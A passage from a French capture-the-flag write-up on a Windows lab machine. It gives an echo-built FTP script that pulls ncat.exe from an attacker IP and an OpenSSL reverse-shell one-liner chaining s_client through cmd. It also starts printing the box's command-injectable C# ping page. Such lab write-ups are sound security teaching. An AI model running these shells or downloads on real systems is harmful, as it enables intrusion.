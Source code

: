On va finalement pouvoir passer par TCP avec les ports 73 et 136. Pour autant on ne peut pas uploader de fichiers à l'aide de bitsadmin, certutil, powershell ni même FTP.  

A titre informatif il aura fallut injecter les commandes suivantes pour tester FTP (depuis Kali on peut utiliser le module auxiliaire de serveur FTP de *Metasploit*) :  

```bash
echo open 10.10.14.242 73 > c:\users\public\desktop\shortcuts\devloop_ftp.txt
echo USER devloop >> c:\users\public\desktop\shortcuts\devloop_ftp.txt
echo nevergonnagiveyouup >> c:\users\public\desktop\shortcuts\devloop_ftp.txt
echo bin >> c:\users\public\desktop\shortcuts\devloop_ftp.txt
echo GET ncat.exe >> c:\users\public\desktop\shortcuts\devloop_ftp.txt
echo bye >> c:\users\public\desktop\shortcuts\devloop_ftp.txt
ftp -s c:\users\public\desktop\shortcuts\devloop_ftp.txt
```

De la même façon on trouve différentes versions de MSBuild (avec la commande *where /r c:\ msbuild.exe*) mais il s'avère que notre utilisateur *Alan* ne peut en exécuter aucune donc pas de [bypass d'AppLocker](https://pentestlab.blog/2017/05/29/applocker-bypass-msbuild/)... On est condamné à utiliser OpenSSL.  

On se consolera avec la possibilité d'obtenir un reverse shell interactif en exploitant ces deux ports. La technique est la même que décrite [dans cet article](https://medium.com/@honze_net/openssl-reverse-shell-with-certificate-pinning-e0955c37b4a7) mais appliqué à Windows donc :  

```plain
10.10.13.187 & "c:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.13.187:136 | cmd | "c:\Program Files (x86)\OpenSSL-v1.1.0\bin\openssl.exe" s_client -quiet -connect 10.10.13.187:73
```

On a alors besoin de deux terminaux : l'un où le port 136 a été mis en écoute et sur lequel on rentre nos commandes, le second en écoute sur le port 73 où l'on peut lire le résultat de ces commandes.  

A noter que ça a très bien fonctionné tout le temps de l'exploitation mais je n'ai plus réussi à reproduire au moment de l'écriture du write-up...  

Pour les plus curieux d'entre vous voici le code du script de ping du CTF :  

```java
using System;
using System.Collections.Generic;
using System.Web;
using System.Web.UI;
using System.Web.UI.WebControls;
using System.Diagnostics;
using System.Net.NetworkInformation;
using System.IO;
public partial class wi_console_ping_default : System.Web.UI.Page
{
    protected void ping(object sender, EventArgs e)
    {
         if(search.Text=="")
         {
             l1.InnerText = "No host entered!";
            return;
         }

        //Response.Write(search.Text);
        Process myProcess = new Process();
        string result = "";
        myProcess.StartInfo.FileName = @"C:\WINDOWS\System32\cmd.exe";

        string no = "unreachable";

        myProcess.StartInfo.UseShellExecute = false;
        //myProcess.StartInfo.CreateNoWindow = true;
        myProcess.StartInfo.RedirectStandardInput = true;
        myProcess.StartInfo.RedirectStandardOutput = true;
```